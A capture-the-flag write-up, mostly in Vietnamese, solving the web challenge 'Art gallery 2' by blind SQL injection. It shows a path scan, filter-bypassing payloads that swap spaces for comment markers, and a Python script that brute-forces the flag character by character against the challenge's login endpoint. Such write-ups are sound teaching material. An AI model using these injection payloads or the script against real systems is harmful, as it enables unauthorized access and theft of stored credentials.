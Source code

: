 Art gallery 2
===
**Category:** Web

**Author:** Nimisha

**Point:** 300(4 solved)

### Description
I'm on the way to open my very own Art Gallery. I can allow you to take a peak if you want. But not everyone though

### Overview
Site có một form đăng nhập và ở trong mã nguồn không cung cấp cho chúng ta thứ gì đặc biệt. Scan path xem nó các path nào được ẩn đi thì nhận được 
```
[00:29:03] 200 -   30B  - /auth.php
[00:29:16] 200 -    0B  - /config.php
[00:29:39] 302 -    0B  - /home.php  ->  index.html
[00:29:44] 200 -  675B  - /index.html
[00:30:26] 403 -  277B  - /server-status
[00:30:26] 403 -  277B  - /server-status/
[00:30:41] 200 -   19B  - /test.php
```
### Solution
Mình thử input username và password là `'` nhưng nhận được là `Incorrect username or password or both??`. Tiếp tục thử với `' or 1=1 -- -` thì nhận được `ofcourse they're blocked` vậy là đã có một số char và function của sql bị block đi => có thể là sql injection.
Tới đây mình bắt đầu fuzz tìm các char và function bị block. Sau một khoảng time để fuzz thì thấy được cái kí tự sau bị block `=,admin` và khoảng trắng.
Payload hiện tại của mình có thể đăng nhập `'or/**/1#`. Khi đăng nhập được thành công với payload này thì kết quả nhận được ở `home.php` là `I know you are looking for something, but it ain't that easy XD` và ở `card.php` nhận được `welcome back` kèm theo username mình input vào.
Tới đây mình nghĩ có lẽ là sql blind phải tìm password và username nào đó trong db hoặc flag nằm trong DB.
Mình sử dụng burp để brute length của password -> `username='or/**/length(password)/**/like/**/$$#` thì nhận được length = 36
Tiếp tục thử brute mấy kí tự đầu của password -> `username='or/**/left(password,1)/**/like/**/"{}"#` thì nhận được chữ s là `welcome` và brute tiếp tục kí tự thứ 2 và 3 thì là `h` và `a` => password là flag. Tới đây rồi thì mình viết một đoạn script để xử lí việc này.

###### Payload
- Poc: `payload_blind.py`
```py
import requests
import string

url = 'http://34.66.139.33/auth.php'
flag = ''
for i in range(1,50):
	for j in string.ascii_letters+string.digits+'_{}':
		print(j,end='\r')
		temp = flag + j
		# print(temp)
		data = {"username":f"""'or/**/left(password,{i})/**/like/**/binary/**/"{temp}"#""","password":"a"}
		# print(data)
		r = requests.post(url=url,data=data,allow_redirects=False)
		# print(r.text)
		if "welcome!!" in r.text:
			flag += j
			print(flag)
			break
```